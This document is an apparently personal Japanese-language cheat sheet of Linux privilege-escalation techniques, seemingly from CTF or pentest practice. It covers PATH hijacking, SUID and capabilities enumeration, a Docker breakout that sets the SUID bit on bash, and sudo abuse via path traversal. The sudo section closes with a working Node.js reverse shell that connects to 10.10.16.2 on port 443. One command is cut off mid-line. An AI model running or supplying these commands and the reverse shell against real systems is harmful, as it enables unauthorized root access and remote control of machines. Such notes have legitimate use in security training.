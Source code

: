 ## ## Reverse shellが完了した後
ptyを使用したshell
```sh
方法1
python -c "import pty;pty.spawn('/bin/bash')"

方法2
script /
```
https://hidepatidar.medium.com/spawning-interactive-reverse-shell-7732686ea775

---
## ## 1. PATH
- シェルで使用するコマンドは、絶対パスで指定をしない限り、
  PATH変数で定義されるディレクトリを見に行く。
  
- ユーザが書き込み権限を持っているフォルダーがパスにある場合アプリケーションを
  乗っ取ってスクリプトを実行する可能性がある。
  
  ▼手順
   - この手法は、システムの既存の構成に依存しているため以下の点を確認する必要がある。
     1.  $PATHの下にあるフォルダー
     2.  現在のユーザは、これらのフォルダのいずれかに対する書き込み権限を持っているか？
     3.  $PATHを変更できるか。
     4.  この脆弱性の影響を受ける、スクリプト/アプリケーションはあるか？
     
	書き込み可能なフォルダーを検索する方法。
```sh
find / -writable 2>/dev/null | cut -d "
```
ここでecho $PATHとfindの結果を比較しPATHが通っているディレクトリに書き込み権限がないことがわかったら、/tmpなどの書き込みができるフォルダーのPATHを通してあげる必要がある。
```sh
export PATH=/tmp:$PATH
```

---
## ## 2. SUID
   1.SUIDまたはSGIDビットが「s」で設定されているコマンドを特定する。
   ```sh
   find / -type f -perm -04000 -ls 2>/dev/null
   ```

   2. 上記で見つかったものを以下のサイトで調べる。
	https://gtfobins.github.io/#
   3. 上記のサイトで有効な手段が見つからなかった場合。
	  例えば、nanoユーザにrootとして実行できる権限が付与されている場合、その権限を使用して、rootが所有しているファイルでも関係なく読み取るか書き換えることが可能になる。
      
[自作CheetCheat](https://hackmd.io/w2nCuiJhSzyWfmBpeeXyJw)

---
## ## 3.Capabilities
1. 以下のコマンドを使用して有効なケーパビリティを確認できる。
```sh
getcap
```
2. 上記のコマンドのみだとめちゃくちゃエラー出力が出るので以下を実施。
```sh
getcap -r / 2>/dev/null
```

---
## ## Docker
   前提:コンテナ上でRoot権限を取得していること
   1. ホスト側で以下のコマンドを入力してDockerコンテナとホスト間で共有してあるディスクを確認する。
```sh
df -h
```

以下が返ってくる。
```sh
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.3M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  64% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

   2. DockerContainerにて以下のコマンドを実行
```sh
cd /bin/
chmod u+s ./bash
```
      
   3. マシンのホスト側にて以下を実施
```sh
bash -p
```
  - 参考
    - Hacktricks
      https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

---

## ## SUDO
   - sudo -l
    /usr/local/scripts/に書き込み権限がないときは/usr/local/scripts/../../../で書き込みができるディレクトリまでさかのぼり実行すればできる。
```sh
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
     
- 以下のようなコードで実行可能
```sh
cat /home/angoose/reverseshell.js 

(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/bash", []);
var client = new net.Socket();
client.connect(443, "10.10.16.2", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application from crashing
})();
```
- payload
```sh
sudo /usr/bin/node /usr/local/scripts/../../../..//home/angoose/reverseshell.js
```
        